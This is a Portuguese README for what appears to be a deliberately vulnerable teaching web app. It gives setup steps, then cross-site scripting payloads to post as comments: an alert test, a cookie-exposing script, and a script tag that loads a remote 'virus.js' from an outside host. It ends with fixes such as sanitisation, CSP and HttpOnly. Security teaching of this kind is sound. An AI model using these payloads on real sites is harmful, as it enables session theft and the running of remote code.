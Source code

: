 # Clonando e executando este projeto

1. Clique sobre o botão verde `[Code]` e copie o endereço deste repositório.
2. Abra o Visual Studio Code. Se houver algum projeto aberto, feche-o usando a opção de menu `Arquivo > Fechar Pasta` (ou `File > Close folder`).
3. Clique sobre o botão que se parece com um `Y` na barra vertical esquerda do Visual Studio Code. Em seguida, clique sobre o botão `[Clonar repositório...]` (ou `[Clone repository...]`). Nessa etapa, se o Git não estiver instalado na máquina, será necessário baixá-lo (a partir de [https://git-scm.com/](https://git-scm.com/)) e instalá-lo antes de poder clonar o repositório.
4. Na caixa de diálogo que se abre no alto da janela, cole o endereço do repositório copiado no passo 1.
5. Escolha um pasta local do computador para armazenar os arquivos do repositório clonado.
6. Ao ser perguntado se deseja abrir o repositório clonado, clique sobre o botão `[Abrir]`.
7. Abra o terminal integrado do VS Code (`Ctrl+Shift+Aspa simples`).
8. Instale as dependências do projeto executando `npm install` no terminal.
9. Para rodar o projeto, execute `npm start` no terminal.
10. Acesse a aplicação em [http://localhost:3000](http://localhost:3000).

---

### 🧀 Explorando a vulnerabilidade

A aplicação permite **comentários**, mas **não sanitiza a entrada do usuário**.
Isso significa que você pode inserir **código JavaScript malicioso**.

Experimente postar este comentário:

```html
<script>alert('XSS encontrado!');</script>
```

Se a aplicação estiver vulnerável, você verá um **alert()** sendo executado no navegador! 🔥

---

### 🚩 Capturando a Flag

Dentro da aplicação há uma _flag_ escondida. Tente capturá-la usando:

```html
<script>document.write('<h1>' + document.cookie + '</h1>');</script>
```

Se bem-sucedido, o **_cookie_ da sessão** será exposto, o que pode ser usado para roubar a identidade de usuários logados.

---

### ☠️ Executando um _script_ malicioso mais "interessante

Experimente comentar

```html
<script src="https://faustocintra.com.br/_seg/virus.js"></script>
```

---

### 🚀 Desafio extra

Modifique o código para **corrigir a vulnerabilidade**! Algumas técnicas incluem:

- **Sanitização da entrada** (escape de HTML ou bibliotecas como `DOMPurify`).
- **Uso de Content Security Policy (CSP)** para bloquear execução de _scripts_ injetados.
- **Definir a flag `HttpOnly` nos _cookies_** para impedir acesso via JavaScript.
- Usar a **_tag_ de saída de HTML com escape** da biblioteca **ejs** (com a qual o _front-end_ desta aplicação foi desenvolvido).

---

💡 **Dica:** Teste diferentes abordagens de ataque e tente explorar outras vulnerabilidades no código! Boa sorte! 🚀
